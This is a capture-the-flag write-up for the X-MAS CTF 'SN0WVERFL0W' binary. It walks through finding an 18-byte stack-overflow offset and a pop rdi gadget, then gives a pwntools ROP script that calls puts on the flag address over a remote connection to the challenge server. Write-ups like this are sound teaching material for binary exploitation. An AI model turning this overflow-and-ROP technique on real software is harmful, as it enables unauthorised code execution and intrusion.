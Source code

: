 ![SN0WVERFL0W](/src/SN0WVERFL0W .png)

first we run chacksec and files:
```shell
[marco@marco-pc challxmas]$ file chall 
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=b96d5da6df4dc39b35bec7a8068b741d24999c3d, stripped
```
```gdb
pwndbg> checksec
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      No	0		1	/home/marco/Downloads/challxmas/chall
```

As always, the program wait for our input. Using cyclic we can find how many bytes it takes to overwrite RIP.
```gdb
pwndbg> cyclic 40
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa
pwndbg> r
Starting program: /home/marco/Downloads/challxmas/chall 
Helloooooo, do you like to build snowmen?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa
Mhmmm... Boring...

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401201 in ?? ()
...
RBP  0x6165616161646161 ('aadaaaea')
...
pwndbg> cyclic -l 'aada'
10
```
10 + 8 = 18 bytes. 
The file is stripped but we want to explore the memory. So the idea is executing in gdb and press ctrl+c to stop the program and explore the memory.
Searching some stuff we retive:
```gdb
pwndbg> search X-MAS
chall           0x402010 'X-MAS{REAL FLAG ON THE SERVER}'
chall           0x403010 'X-MAS{REAL FLAG ON THE SERVER}'
pwndbg> plt
0x401030: puts@plt
0x401040: read@plt
0x401050: strcmp@plt
0x401060: setvbuf@plt
```
Since there isn't PIE and we have puts in the plt, we can try to ROP and execute a puts with the flag as argument to print it.
To do that we need a gadget to pop flag address in RDI. Using ROPgadget
```shell
[marco@marco-pc challxmas]$ ROPgadget --binary="chall" > gadgets
[marco@marco-pc challxmas]$ cat gadgets | grep "pop rdi"
0x0000000000401273 : pop rdi ; ret
```


Exploit:
```python
from pwn import *


pop_rdi = 0x0000000000401273
flag1 = 0x402010
puts_plt = 0x0000000000401030
flag2 = 0x403010

payload = ("A"*18).encode()
payload += p64(pop_rdi)
payload += p64(flag1)
payload += p64(puts_plt)


s = remote('challs.xmas.htsp.ro', 12006)
s.recvuntil('?')
s.send(payload)
s.interactive()
```

# FLAG
X-MAS{700_much_5n0000w}
